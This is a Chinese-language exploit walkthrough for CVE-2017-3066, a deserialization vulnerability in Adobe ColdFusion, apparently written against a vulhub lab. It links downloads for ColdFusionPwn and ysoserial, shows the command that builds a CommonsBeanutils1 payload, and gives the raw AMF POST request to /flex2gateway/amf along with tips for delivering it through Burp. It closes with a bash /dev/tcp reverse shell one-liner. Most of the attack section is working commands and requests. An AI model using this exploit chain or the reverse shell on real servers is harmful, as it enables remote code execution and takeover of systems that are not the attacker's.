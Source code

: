 （CVE-2017-3066）Adobe ColdFusion 反序列化漏洞
==============================================

一、漏洞简介
------------

二、漏洞影响
------------

Adobe ColdFusion (2016 release) Update 3及之前的版本，

ColdFusion 11 Update 11及之前的版本，

ColdFusion 10 Update 22及之前的版本。

三、复现过程
------------

使用[ColdFusionPwn](https://github.com/ianxtianxt/ColdFusionPwnn)工具来生成POC。[点击下载ColdFusionPwn](http://wiki.0-sec.org/download/ColdFusionPwn-0.0.1-SNAPSHOT-all.zip)

Usage
-----

    java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-master-SNAPSHOT.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner [-s|-e] [payload type] '[command]' [outfile]

[点击下载ysoserial](http://wiki.0-sec.org/download/ysoserial.zip)【注意】下载的jar包可能因为时间不同，而更新，包名也就不同。注意将命令中的包名，替换为你下载时候的名字

    java -cp ColdFusionPwn.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/CVE-2017-3066_is_success' poc.ser

生成poc.ser文件后，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为`application/x-amf`**路径不唯一，目前已收集到的为以下两种路径：****/flex2gateway/amf****/messagebroker/amf**

    POST /flex2gateway/amf HTTP/1.1
    Host: your-ip:8500
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-amf
    Content-Length: 2853

    [...poc...]

![](./resource/(CVE-2017-3066)AdobeColdFusion反序列化漏洞/media/rId28.png)

### 关于发送的内容编码问题

由于编码问题，如果直接从Notepad++/Notepad里面复制粘贴为body部分，是不成功的，即使返回的状态码是200

#### 正确发送方式为：

右击选择**Paste From File**，上传**poc.cer**文件

![](./resource/(CVE-2017-3066)AdobeColdFusion反序列化漏洞/media/rId31.png)

再到`Raw`界面添加HTTP头部，如果成功，并且打算以后还需要用的话，右击选择`Copy to File`保存

![](./resource/(CVE-2017-3066)AdobeColdFusion反序列化漏洞/media/rId32.png)

进入容器中，发现`/tmp/success`已成功创建：

![](./resource/(CVE-2017-3066)AdobeColdFusion反序列化漏洞/media/rId33.png)

将POC改成[反弹命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功拿到shell：

![](./resource/(CVE-2017-3066)AdobeColdFusion反序列化漏洞/media/rId35.png)

补充一下反弹shell的命令,可以通过http://www.jackson-t.ca/runtime-exec-payloads.html在线转换

    bash -i >& /dev/tcp/ip/port 0>&1

参考链接
--------

> https://vulhub.org/\#/environments/coldfusion/CVE-2017-3066/
